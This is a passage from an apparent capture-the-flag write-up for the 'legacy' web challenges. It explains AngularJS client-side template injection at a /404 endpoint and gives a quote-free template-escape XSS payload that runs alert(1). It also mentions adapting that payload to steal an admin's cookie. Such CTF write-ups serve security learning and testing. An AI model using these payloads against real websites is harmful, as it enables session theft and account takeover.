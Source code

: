 ```js
  $locationProvider.html5Mode(true);
  console.log($urlRouterProvider);
  $urlRouterProvider.otherwise('/404');
}]);
```


## Clinet-Side Template Injection

Looking at the above snippet, we know that our input is being rendered directly using **innerHTML** as a template

```js
 template = document.createElement("span")
  template.innerHTML = "<h3>404</h3>path not found: "
  sanitizer = document.createElement("code")
  sanitizer.innerText = document.location
  template.appendChild(sanitizer)
  var f04State = {
    name: '404',
    url: '/404',
    template: template.innerHTML
  };
```

It was possible to confirm this using the **/404** endpoint using the below 
```
http://legacy-1.ctf.hackaplaneten.se:8001/404?{{7*7}}
```

Which came back with a response that contained a successful injection message, knowing that the goal was XSS, it was challenging to craft payloads with quotes, doing a bit of research, I was able to find payloads without quotes, the following payload achieved **alert(1)**

```
http://legacy-1.ctf.hackaplaneten.se:8001/404?{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}} 
```

Adapting it to steal admin's cookie, we got the flag. 


# legacyversion2 (12 Solves)

Legacy2 was the revenge for Legacy, similar to Legacy where Angular.js is also taking care of the application's functionality. 

A note was given in the challenge description stating we will still need **Legacy's** XSS for this challenge. 

```html
<!doctype html>
<html ng-app="myApp">
  <head>
    <script src="https://cdn.rawgit.com/SlexAxton/messageformat.js/v1.0.2/messageformat.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.5.5/angular.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.5.5/angular-animate.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.5.5/angular-cookies.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.5.5/angular-sanitize.js"></script>
    <script src="https://cdn.rawgit.com/angular-translate/bower-angular-translate/2.19.0/angular-translate.js"></script>
    <script src="https://cdn.rawgit.com/angular-translate/bower-angular-translate-interpolation-messageformat/2.19.0/angular-translate-interpolation-messageformat.js"></script>
```